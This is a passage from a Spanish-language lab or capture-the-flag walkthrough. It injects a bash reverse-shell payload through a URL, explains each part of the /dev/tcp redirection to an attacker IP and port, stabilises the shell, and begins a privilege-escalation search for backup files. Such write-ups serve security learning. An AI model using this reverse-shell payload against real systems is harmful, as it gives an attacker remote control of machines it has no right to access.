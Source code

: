 >Ya que estamos en escucha vamos a inyectar el payload mas conocido de reverse Shell en la url:

![\1](/Attachments/Pasted%20image%2020250510171244.png)
_//El %26 es una codificación en URL de “&” para que no hayan problemas//_
_Vamos a intentar entenderlo al máximo este comando:_
1. _bash -c Ejecuta lo siguiente dentro de las comillas como una subshell, en pocas palabras, ejecuta el comando entre comillas como si fuera un script de bash._
2. _bash -i Lanza una bash en modo interactivo (para tener una shell medianamente funcional)_
3. _>%26 /dev/tcp/172.17.0.1/1234 0>%261 Es una manera PROPIA de bash para abrir una conexión TCP hacia una ip y un puerto, con la primera parte >%26 /dev/tcp/ip/puerto dirigimos el stdout (respuestas de la shell) de la maquina victima a nuestra ip, y con la segunda parte 0>%261 indicamos que el stdin(comandos que insertamos) de nuestra máquina irá a la ip victima para ser interpretado. En pocas palabras, abrimos una comunicación bidireccional entre nuestra ip y la ip victima, redireccionando nuestra entrada estándar (stdin) y la salida estándar de la víctima (stdout)._

>Con lo anterior, recibimos una reverse Shell por el puerto 1234 :3

![\1](/Attachments/Pasted%20image%2020250510171553.png)

>Primero, vamos a darnos una Shell un poco mas interactiva con:

![\1](/Attachments/Pasted%20image%2020250510171837.png)
_Aquí le estamos diciendo a la Shell que deseamos que la variable de entorno TERM (responsable de especificar el tipo de terminal usado), sea igual a Xterm.
Sí TERM no se establece o está mal establecido en la máquina, cosas como clear, nano, vim, less, no funcionan correctamente (Es para tener una experiencia un poco más funcional).

>Para escalar privilegios, listamos posibles archivos sensibles que puedan existir en la maquina:

![\1](/Attachments/Pasted%20image%2020250510172605.png)
1. _find (comando de búsqueda en Linux)
2. _/ (búsqueda desde la raíz del sistema)
3. _"backup" (filtramos por una cadena)
4. _2>/dev/null (redirige los errores al agujero negro de Linux)